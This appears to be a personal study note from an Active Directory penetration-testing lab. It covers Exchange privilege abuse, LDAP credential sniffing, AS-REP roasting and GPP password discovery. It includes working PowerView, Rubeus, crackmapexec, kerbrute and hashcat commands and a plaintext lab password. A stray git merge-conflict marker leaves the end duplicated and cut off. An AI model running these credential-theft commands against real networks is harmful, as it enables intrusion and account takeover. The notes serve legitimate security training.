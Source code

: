 

## Exchange Weaknesses:
- Groups often have lots of privileges in Exchange, and can be utilized for privilege escalation if understood properly.

"**Exchange Windows Permissions**": Members can write to the DACL, adding themselves to **DCSync** privileges.

"**Organizational Management**": Effectively the "Domain Admins" of Exchange, can access all the mailboxes of all domain users.

**Dumping credentials from memory on a Exchange server** will produce lots of cleartext credentials due to users logging in to Outlook Web Access (OWA) and the server caching their credentials.

## PrivExchange attack
-> A weakness that allows a domain user with a mailbox to get the exchange server to authenticate to any host over HTTP.

## MS14-068 (CVE‑2014‑6324)
Allows a user to force a Privilege Attribute Certificate (PAC) to authenticate to the KDC as an administrator

## Sniffing LDAP credentials
Sometimes printers will have stored credentials. Some printers have a 'test connection' functionality where we can point the connection back to our attacker machine and gather creds from the printer that way. (setup a netcat listener on port 389)

## Enumerating DNS Records:
More thorough enumeration of DNS records can give us better insight into the domain.

We can use a tool (with valid domain creds) such as `adidnsdump`
```shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

## What is LDAP?
Phonebook. Store user information and authentication.

Map out your organization.

LDAP -> AD
OpenLDAP -> Linux

LDAP Provides the *information* about what services a user can access, but does not actually enforce that access. (provides the data to systems that do enforce)

**Rather than having 500 servers on a big network that contain a database to authenticate individuals**, an LDAP server can be used to centralize that authentication.

## Password in Description Field
Utilize Powerview `Get-DomainUser` module to find sensitive information in the description field of AD users.
```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field
If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

## Credentials in SMB Shares and SYSVOL Scripts

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

## Group Policy Preferences (GPP) Passwords

Sensitive data can be stored on the SYSVOL share
```shell

 crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
# Look for exposed credentials for a machine or user that automatically logs on
```

## ASREPRoasting
-> Obtain TGTs for any account that has the `do not require Kerberos pre-authentication`

> The success of this attack depends on the account having a relatively weak password.

- **Kerberoasting** = crack service account credentials via SPN service tickets.
- **AS-REP Roasting** = crack user passwords directly by exploiting accounts without pre-authentication.

<<<<<<< HEAD
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
# Request the hash of the ASRepRoastable user
```

==Crack the hash offline with hashcat==

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```


### Kerbrute
-> Will automatically retrieve the AS-REP for any sers found that do not require Kerberos pre-authentication.
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Get-NUsers.py
Can also hunt for users that are vulnerable to AS-REP attacks
```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

## GPO abuse:
GPO's allow for fine grain control over permissions, but can be complex and can lead to misconfigurations that can be compromised by attackers. These attacks can be used to:
1. Add additional privileges to users
2. Add a local admin user to one or more hosts
3. Create an immediate scheduled task

```powershell
Get-DomainGPO |select displayname
# Enumerate GPO names with PowerView
```

=======
```PowerShell

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

